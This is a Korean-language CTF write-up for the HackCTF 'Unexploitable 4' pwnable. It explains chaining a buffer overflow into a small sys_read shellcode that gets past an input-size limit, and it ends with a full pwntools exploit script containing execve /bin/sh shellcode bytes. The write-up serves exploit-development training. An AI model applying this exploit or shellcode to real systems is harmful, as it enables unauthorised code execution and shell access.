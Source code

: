 
추가적으로 새롭게 알게된 풀이가 있다.

우리가 처음에 fgets로 입력을 받는 것에 사이즈 제한이 있었다. 따라서 쉘코드 중 execve를 실행시키기 위해 필요한 문자열을 세팅한다. 

따라서 처음에 바로 execve를 띄우는 쉘코드를 삽입하지 말고 sys_read를 호출하는 쉘코드를 삽입하면 입력 사이즈 제한을 우회할 수 있기 때문에 이 sys_read함수를 이용해서 이때 쉘코드를 입력하면 원하는 사이즈 만큼 입력이 가능하다.

- 기존 풀이 : fgets → execve실행쉘
- 다른 풀이 : fgets → read호출 쉘 → execve실행 쉘(기존 인터넷에 있는)

read함수를 호출하는 쉘코드는 다음을 이용하였다.

- shellcode= "mov esi, 0x6010c0; mov edx, 0x400; syscall; ret;"

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%204/Untitled%2011.png)

<br>

위 사진은 sys_read 쉘코드로 ret된 상황이다. 운좋게 rax가 이때 0인것을 확인했기 때문에 execve쉘코드를 저장할 rsi 주소만 주고, 사이즈를 크게 0x400정도 주었다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%204/Untitled%2012.png)

그렇게 되면 0x6010c0의 주소에 쉘코드가 정상적으로 들어가게 되고 실행이 된다.

<br>

최종 익스코드는 다음과 같다
```python    
from pwn import *
import time
#p=remote("ctf.j0n9hyun.xyz",3039)
p=process('Unexploitable_4')
gdb.attach(p)
bss=p64(0x601090)
read=p64(0x4006DB )
payload = "A"*0x10
payload+= bss
payload+= read#ret
payload+=bss
p.sendline(payload)
#time.sleep(2)
#gdb.attach(p)
pause()

shellcode= "mov esi,0x6010c0;mov edx,0x400;syscall;ret;"
payload = asm(shellcode)
payload = payload.ljust(0x18)
payload += p64(0x601080)
payload += p64(0x6010c0)
p.sendline(payload)

pause()
shell ="\x90"*0x200
shell+="\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
p.sendline(shell)

p.interactive()
```